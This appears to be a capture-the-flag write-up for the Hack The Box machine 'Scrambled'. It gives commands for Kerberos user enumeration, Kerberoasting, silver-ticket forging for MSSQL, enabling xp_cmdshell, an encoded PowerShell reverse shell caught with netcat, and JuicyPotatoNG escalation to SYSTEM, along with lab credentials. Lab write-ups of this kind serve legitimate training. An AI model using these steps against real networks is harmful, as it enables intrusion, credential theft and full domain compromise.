

# HTB — Scrambled



Scrambled is an Active Directory machine with NTLM authentication disabled, so the path centers on Kerberos enumeration, Kerberoasting, SQL access, and privilege escalation through a service account. The full flow is: identify a valid user, obtain a TGT, roast an SPN, log in to SQL Server, extract credentials from the database, and use token impersonation to get a higher-privileged shell.  

## Reconnaissance

The machine exposed standard AD services along with IIS and Microsoft SQL Server on 1433. The web page was an intranet site, and the network also revealed the `scrm.local` domain and `DC1.scrm.local` as the domain controller.  

```bash
nmap -Pn -sC -sV -p- -oA scrambled -v 10.129.207.49
```

Important services included:

- DNS on 53.
- HTTP on 80.
- Kerberos on 88.
- LDAP on 389 and 636.
- MSSQL on 1433.  

The environment looked like a domain controller plus SQL server setup, which made Kerberos and SQL the likely attack surface.  

## Username Discovery

I downloaded an image from the website and checked its metadata for clues. That led to a small set of likely usernames, including `ksimpson`, `support`, and `usbena`.  

I then used Kerberos-based user enumeration to validate accounts and found that `ksimpson` was valid. After that, I tried username-based guessing and confirmed the password matched the username.  

```bash
kerbrute userenum -d scrm.local --dc dc1.scrm.local users.txt
kerbrute bruteuser --dc 10.129.207.49 -d scrm.local users.txt KSIMPSON
```

That gave me working credentials for `ksimpson`.  

## Kerberos Access

Since NTLM was disabled, I moved to Kerberos and obtained a TGT for `ksimpson`. I then used the TGT to request service tickets and roast an SPN tied to the SQL service account.  

```bash
getTGT.py scrm.local/KSIMPSON:ksimpson -dc-ip 10.129.207.49
KRB5CCNAME=ksimpson.ccache GetUserSPNs.py -dc-ip dc1.scrm.local scrm.local/ksimpson -request -k -no-pass
```

That yielded a Kerberoast hash for `sqlsvc`, which I cracked to recover its password: `Pegasus60`.  

## SMB Enumeration

Using the Kerberos ticket, I connected to SMB and listed the shares. Only `Public` was readable, and inside it there was a PDF named `Network Security Changes.pdf`.  

```bash
KRB5CCNAME=ksimpson.ccache smbclient.py -k -no-pass dc1.scrm.local
```

The document explained that NTLM relay had been used historically, and that SQL access was restricted to ticket-based authentication for administrators. That pointed directly at a silver-ticket path.  

## SQL Ticket Abuse

I used the SQL service account password to build the necessary ticketing material. The key step was generating a silver ticket for `Administrator` against the MSSQL service on the domain controller.  

```bash
ticketer.py -nthash <NTLM> -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -spn MSSQLSVC/dc1.scrm.local Administrator
```

With the ticket loaded, I connected to SQL Server using Kerberos authentication. That gave access to the `ScrambleHR` database.  

```bash
KRB5CCNAME=Administrator.ccache mssqlclient.py -k -no-pass dc1.scrm.local
```

## Database Discovery

Inside SQL Server, I enumerated databases and tables. The `UserImport` table contained useful credentials, including `MiscSvc` with password `ScrambledEggs9900`.  

That credential gave a much more useful foothold inside the SQL environment.  

## Command Execution

I enabled `xp_cmdshell` and used it to execute commands on the host. After that, I spawned a reverse shell and landed as `scrm\sqlsvc`.  

```sql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
To get our first foothold on this machine we will use a NetCat and command execution on the running SQL to do the reverse shell

command to execute on as sql we used this tool to generate the powershell string for us.
```bash
xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD...
```

Starting a NetCat on a different terminal to receive the incoming traffic using this command “sudo nc -lvnp 443”

Pingo we are in scrm/sqlsvc

```bash
connect to [10.10.x.x] from (UNKNOWN) [10.10.x.x] 57867
whoami
scrm\sqlsvc
PS C:\Windows\system32>
```

From there, I confirmed that command execution worked and I had interactive shell access.  

## Privilege Escalation

Enumeration showed that token impersonation privileges were enabled, so I used JuicyPotatoNG https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1?source=post_page-----e0111f3b1050--------------------------------------- for escalation. The method was to upload a batch file and a reverse shell binary, then run JuicyPotatoNG to trigger a SYSTEM context callback.  

```bash
jp.exe -t * -p C:\\programdata\\rev.bat
```

That resulted in a higher-privileged shell, completing the box.  

## Attack Path

- Enumerate the domain and identify likely usernames.
- Validate `ksimpson` and derive the password.
- Get a Kerberos TGT and roast the SQL SPN.
- Crack the service account password.
- Use SMB and the public PDF for environment clues.
- Build a silver ticket for MSSQL access.
- Log into SQL Server with Kerberos.
- Extract credentials from the database.
- Enable `xp_cmdshell` and execute commands.
- Use token impersonation with JuicyPotatoNG to escalate.
